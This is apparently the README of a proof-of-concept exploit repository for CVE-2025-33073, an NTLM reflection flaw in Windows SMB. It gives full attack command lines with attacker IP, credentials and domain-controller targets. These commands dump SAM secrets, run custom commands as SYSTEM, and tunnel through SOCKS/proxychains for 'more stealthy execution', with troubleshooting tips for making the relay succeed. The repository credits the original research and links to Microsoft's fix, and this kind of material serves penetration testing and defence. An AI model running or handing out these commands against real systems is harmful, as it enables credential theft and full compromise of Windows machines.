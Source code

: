 # CVE-2025-33073
PoC Exploit for the NTLM reflection SMB flaw.

All credits go to the offical research:</br>
https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025

### Prerequisites
OS: Kali Linux (has most packages pre-installed).

* NetExec (NXC) - https://github.com/Pennyw0rth/NetExec
* impacket-ntlmrelayx
* dnstool.py (included in repo)
* xterm (only for GUI)

### Example usage
**GUI**
```
python3 CVE-2025-33073.py -u 'wintastic.local\mathijs' -p 'password' --attacker-ip 192.168.178.49 --dns-ip 192.168.178.138 --dc-fqdn DC01.wintastic.local --target CLIENT01.wintastic.local --target-ip 192.168.178.65
```
![image](https://github.com/user-attachments/assets/83ce744a-161e-4c0f-9f2d-6d57f23a913c)

**CLI**
```
python3 CVE-2025-33073.py -u 'wintastic.local\mathijs' -p 'password' --attacker-ip 192.168.178.49 --dns-ip 192.168.178.138 --dc-fqdn DC01.wintastic.local --target CLIENT01.wintastic.local --target-ip 192.168.178.65 --cli-only
```
![image](https://github.com/user-attachments/assets/fff4fcde-0a93-43c9-b93e-990554ccb689)

**Custom command**</br>
Instead of running secretsdump a custom command can be executed.
```
python3 CVE-2025-33073.py -u 'wintastic.local\mathijs' -p 'password' --attacker-ip 192.168.178.49 --dns-ip 192.168.178.138 --dc-fqdn DC01.wintastic.local --target CLIENT01.wintastic.local --target-ip 192.168.178.65 --cli-only --custom-command "whoami"
```
![image](https://github.com/user-attachments/assets/1a054df7-ba08-4c9c-a4cf-737eb0827534)

**SOCKS**</br>
For more stealthy execution of commands after valid connection as SYSTEM has been made. --target and --target-ip should be equal here.
```
python3 CVE-2025-33073.py -u 'wintastic.local\mathijs' -p 'password' --attacker-ip 192.168.178.49 --dns-ip 192.168.178.138 --dc-fqdn DC01.wintastic.local --target 192.168.178.65 --target-ip 192.168.178.65 --cli-only --socks
```
![image](https://github.com/user-attachments/assets/8cf77803-f417-4abe-a993-746049b2634c)
Also a custom command can be ran through proxychains instead of dumping SAM.
```
proxychains nxc smb 192.168.178.65 -d '' -u '' -p '' -x 'whoami' --exec-method smbexec
```
![image](https://github.com/user-attachments/assets/6ecf0e32-ccd2-4a61-a024-644b214607ea)

### Manual exploit without DNS requirement
If you're in the same broadcast domain as the device and it's vulnerable for LLMNR poisioning it's possible to exploit a device without having to register a DNS record.

![image](https://github.com/user-attachments/assets/20c81ea0-88bf-4334-98aa-d2cb93f473b1)


### Troubleshooting

* I've seen the attack not work sometimes because the hostname is used for the attack which results in a DNS lookup from Kali. If Kali is not using the DNS server or you get a '/ FAILED' message from impacket-ntlmrelayx try adding the host to your /etc/hosts file. This should result in the attack working.
* If using IP the attack should work. Sometimes running it multiple times will result in a SUCCESS instead of failure. It's until now not perfectly clear why this happens. I think it has something to do with networking.
* Try another coerce method using -M or --method.

#### Wireshark

**Local NTLM authentication takes place**
![image](https://github.com/user-attachments/assets/0a3fe643-2d52-427a-91f2-991770732f62)

**Local NTLM authentication does not take place resulting in a FAILED attempt**
![image](https://github.com/user-attachments/assets/7f6e900a-1c5b-4bc6-b5ae-79dbbe3f7348)

#### Good to know
* xterm allows copying and pasting with the middle mouse button.
* DNS-record should also be known to the client, this can take more time in some occasions. With more time I mean give it a couple of minutes.
* This is just a PoC which means AV/EDR bypasses have not been tried to bypass. Use at own risk.
</br>

### How to fix
https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2025-33073
